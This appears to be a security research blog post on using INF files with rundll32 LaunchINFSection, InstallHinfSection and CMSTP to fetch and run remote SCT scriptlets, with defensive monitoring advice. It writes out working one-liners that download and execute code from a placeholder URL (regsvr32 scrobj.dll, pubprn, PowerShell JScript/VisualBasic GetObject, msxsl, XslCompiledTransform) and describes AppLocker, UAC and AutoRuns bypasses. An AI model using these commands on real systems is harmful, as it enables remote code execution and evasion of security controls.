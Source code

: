 # Leveraging INF-SCT Fetch & Execute Techniques For Bypass, Evasion, & Persistence

### Introduction

Over the last few weeks, I researched and tested a few interesting namespaces/methods documented on various Microsoft/MSDN sources that dealt with executing various COM scripts/scriptlets (e.g. VBscript, Jscript, etc.).  In particular, I was curious to see if there were potentially new ways to invoke remote scripts (ActiveX Objects) by leveraging some of the great research already performed and documented by [@subTee](https://twitter.com/subTee), [@Oddvarmoe](https://twitter.com/Oddvarmoe), [@ItsReallyNick](https://twitter.com/ItsReallyNick), [@KyleHanslovan](https://twitter.com/KyleHanslovan), [@ChrisBisnett](https://twitter.com/chrisbisnett), and [@NickTyrer](https://twitter.com/NickTyrer).  There were some interesting findings, but the one that really stood out was the discovery of **LaunchINFSection**, a ‘new’ method to remotely launch staged SCT files configured within INF files.

In this post, we’ll discuss several known INF-SCT launch methods, introduce LaunchINFSection, and dive into use cases/defensive considerations.  Additionally, we’ll reference other techniques for remote script/scriptlet execution.

### INF-SCT Launch Methods

Methods for launching script component files (‘.sct’) via INF configuration files include InstallHinfSection (setupapi.dll), CMSTP, and LaunchINFSection (advpack.dll).  Let’s dive in…

**Malicious INF-SCT Usage with InstallHinfSection**

At [DerbyCon](https://twitter.com/DerbyCon) 2017, @KyleHanslovan and @ChrisBisnett of [@HuntressLabs](https://twitter.com/HuntressLabs) presented a very interesting topic – [Evading AutoRuns](https://github.com/huntresslabs/evading-autoruns/blob/master/Evading\_Autoruns\_Slides.pdf).  In their presentation, they showcase a method for launching remote SCT via INF by invoking  InstallHinfSection with the following command:

```
rundll32.exe setupapi.dll,InstallHinfSection DefaultInstall 128 [path to file.inf]
```

Within the [source](https://raw.githubusercontent.com/huntresslabs/evading-autoruns/master/shady.inf) INF file used for remote SCT execution, ‘rundll32.exe setupapi.dll,InstallHinfSection’ calls the default INF section (‘DefaultInstall’).  Under this section, the Unregister DLLs directive (UnregisterDlls) calls the ‘Squiblydoo’ section to perform the ‘malicious’ action of invoking scrobj.dll to fetch and run the SCT script file.

**Malicious INF-SCT Usage With CMSTP**

About a month ago, @NickTyrer demonstrated on [Twitter](https://twitter.com/NickTyrer/status/958450014111633408) that INF files could be used to fetch SCT files from web resources to execute COM scripts/scriptlets using **cmstp.exe**, a utility that had been documented by @Oddvarmoe to [bypass](https://msitpros.com/?p=3960) UAC and AppLocker default policies.  For reference, basic usage for cmstp.exe is as follows:

```
cmstp.exe /s [file].inf
```

Within the [source](https://twitter.com/NickTyrer/status/958450014111633408) INF file used for remote SCT execution, cmstp.exe calls the INF section named ‘DefaultInstall\_SingleUser’.  Under this section, the OCX unregister directive (UnRegisterOCX) calls the ‘UnRegisterOCXSection’ section to perform the ‘malicious’ action of invoking scrobj.dll to fetch and run the SCT script file.

**Malicious INF/SCT Usage With LaunchINFSection**

According to Microsoft [documentation](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/gg441316\(v=vs.85\)), LaunchINFSection is a method within the Advanced INF Package Installer (advpack.dll) that is used to invoke a particular section within a setup information (.inf) file.  In the administrative sense, INF files are typically used as an instruction file for the installation of device drivers and/or Windows Cabinet (.cab) files, which may include registering Windows binaries (exe, dll, ocx), adding keys to the registry, and/or specifying critical parameter settings.  The general method for LaunchINFSection invocation is as follows:

```
rundll32.exe advpack.dll,LaunchINFSection [file].inf,[INF Section],[Path to Cab].cab,[Installation Flags]
```

If the \[INF Section] is not specified, LaunchINFSection will attempt to call **DefaultInstall** for the default section.  Additionally, it is worth noting that the Advanced INF Package Installer also contains the function **LaunchINFSectionEx** as well as other character set comparability functions (e.g. LaunchINFSectionA), which effectively do the same thing as LaunchINFSection.

For proof of concept, we can simply [modify](https://gist.githubusercontent.com/bohops/693dd4d5dbfb500f1c3ace02622d5d34/raw/902ed953a9188b27e91c199b465cddf855c7b94f/test.inf) the INF file used by @NickTyrer with a staged SCT script payload found [here](https://gist.githubusercontent.com/bohops/6ded40c4989c673f2e30b9a6c1985019/raw/33dc4cae00a10eb86c02b561b1c832df6de40ef6/test.sct) (big shout out to @subTee and [@redcanaryco](https://twitter.com/redcanaryco) for providing their AtomicRedTeam scripts and many useful test payloads to the community). Let’s download the modified INF to the ‘target’ (test.inf) and invoke LaunchINFSection (using a placeholder value of ‘1’ for our non-existant cab file) with the following command:

```
rundll32.exe advpack.dll,LaunchINFSection test.inf,DefaultInstall_SingleUser,1,
```

As shown in the following screenshot, our INF-SCT-Calc Scriptet payload was successfully launched:

![LaunchInfSection](https://bohops.files.wordpress.com/2018/02/launchinfsection.png?w=756)

Take note that we can also launch our payload in other, slightly different ways.  If we change the INF file entry point section to ‘DefaultInstall’, we can launch our payload without section specification using the following command:

```
rundll32.exe advpack.dll,LaunchINFSection test.inf,,1,
```

The same payload is successfully launched:

![LaunchInfSection2](https://bohops.files.wordpress.com/2018/02/launchinfsection2.png?w=756)

Additionally, we can change the OCX unregister directive to a register directive (‘RegisterOCXs’) and supply a random name (e.g. ‘MoreFun’) to invoke the same payload:

![LaunchInfSection3](https://bohops.files.wordpress.com/2018/02/launchinfsection3.png?w=756)

### Some Use Cases & Defensive Considerations

In addition to the environmental considerations above, defenders should keep an eye out for these:

**Malware**

In the wild, actors have leveraged malware INF payloads.  @ItsReallyNick discovered several [malware samples](https://twitter.com/ItsReallyNick/status/958789644165894146) that actually took advantage of @NickTyrer’s CMSTP technique a few years ago.  Other samples show malware from the early 2000s that appear to take advantage of more native administrative techniques using LaunchINFSection without INF-SCT execution.

![LaunchInfSectionMalware](https://bohops.files.wordpress.com/2018/02/launchinfsectionmalware.png?w=756)

![LaunchInfSectionMalware2](https://bohops.files.wordpress.com/2018/02/launchinfsectionmalware2.png?w=756)

**Bypass, Evasion, & Persistence**

In addition to [bypassing](https://msitpros.com/?p=3960) Operating System security controls such as Application Whitelisting and User Account Control, CMSTP can be used for AutoRuns evasion and persistence.  Here is a screenshot that does not show CMSTP when the ‘Hide Windows Entries’ flag is enabled within AutoRuns:

![cmstp\_autoruns1](https://bohops.files.wordpress.com/2018/02/cmstp\_autoruns1.png?w=756)

Here is a screenshot with CMSTP present without any filtering:

![cmstp\_autoruns2](https://bohops.files.wordpress.com/2018/02/cmstp\_autoruns2.png?w=756)

\*Note: LaunchINFSection and InstallHinfSection do not appear to be evasive candidates for (newer) versions of AutoRuns because these methods rely on rundll32.exe to invoke the respective dll.  These methods are not filtered after hiding Windows and Microsoft entries.  However, LaunchINFSection proves to be a valid application whitelisting bypass technique as we were able to “gain code execution” against [default](https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/) AppLocker rules.

**On the Network**

Hopefully, network analysis is still important these days.  Here is a sample GET request invoked by scrobj.dll to fetch a fake SCT file:

![get\_request](https://bohops.files.wordpress.com/2018/02/get\_request.png?w=756)

Take note of the User-Agent.  Interestingly enough, I have seen this with other Microsoft utilities that have the ability to perform such requests.  These days, it may be worth treating anything that remote fetches with scrutiny (I know – easier said than done).

**Arbitrary File Names**

**Now for a kicker** – SCT files are merely text/XML files and INF files are text files.  In my basic testing, these files **do not need a proper extension for invocation**.  In this example, we call ‘test.notinf’ and ‘test.notsct’ to successfully execute our ‘sct’ payload:

![notsct](https://bohops.files.wordpress.com/2018/02/notsct1.png?w=756)

**Other Considerations**

\*Host Monitoring is essential.  If budget is a constraint, consider using [Sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon) (free) to feed your ([open-source](https://wazuh.com/)) SIEM.  Monitor for the introduction of new “.inf” files within the environment and execution of such files with the methods described above.

\*Application Whitelisting is still essential.  Default AppLocker rules are pretty much based on path constraints.  As I previously [blogged](https://bohops.com/2018/01/23/loading-alternate-data-stream-ads-dll-cpl-binaries-to-bypass-applocker/) about, some of these paths do allow users to write to sub-directories in sensitive hierarchical paths.  Ensure these paths are locked down.  This will at least help protect against a subset of execution techniques (and hopefully alert you when an event is triggered).

\*INF execution is not the only way to invoke ‘sct’ scripts.  I will blog about other methods in greater detail down the road (including some ‘new’ techniques), but here is a quick rundown of a few of them:

**RegSvr32/Scrobj.dll** \[[Reference](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md)]

```
regsvr32 /s /n /u /i:http://url/file.sct scrobj.dll
```

**PubPrn** \[[Reference](https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/)]

```
pubprn.vbs 127.0.0.1 script:http://url/file.sct
```

**Microsoft.JScript.Eval Assembly via PowerShell** \[[Reference](https://twitter.com/bohops/status/965085651199840258)]

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');[Microsoft.JScript.Eval]::JScriptEvaluate('GetObject("script:http://url/file.sct").Exec()',[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
```

**Microsoft.VisualBasic.Interaction Assembly via PowerShell** \[[Reference](https://twitter.com/bohops/status/965670898379476993)]

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:http://url/file.sct').Exec(0)
```

\*It is also worth noting that ‘sct’ is not the only player in the game.  Here are a few other ‘remote’ XML/XSLT techniques that need to be monitored:

**MsXSL** \[[Reference](https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker)]

```
msxsl.exe http://url/file.xml http://url/file.xsl
```

**System.Xml.Xsl.XslCompiledTransform Assembly via PowerShell** \[[Reference](https://twitter.com/bohops/status/966172175555284992)]

```
$s=New-Object System.Xml.Xsl.XsltSettings;$r=New-Object System.Xml.XmlUrlResolver;$s.EnableScript=1;$x=New-Object System.Xml.Xsl.XslCompiledTransform;$x.Load('http://url/file.xsl',$s,$r);$x.Transform('http://url/file.xml','z');del z;
```

### Conclusion

Thank you for taking the time to read this blog post.  I will add content as I learn more and/or capture greater insight from the community.  If you have questions/comments/or notice that I left out anything important, send me an email through the \[contact]
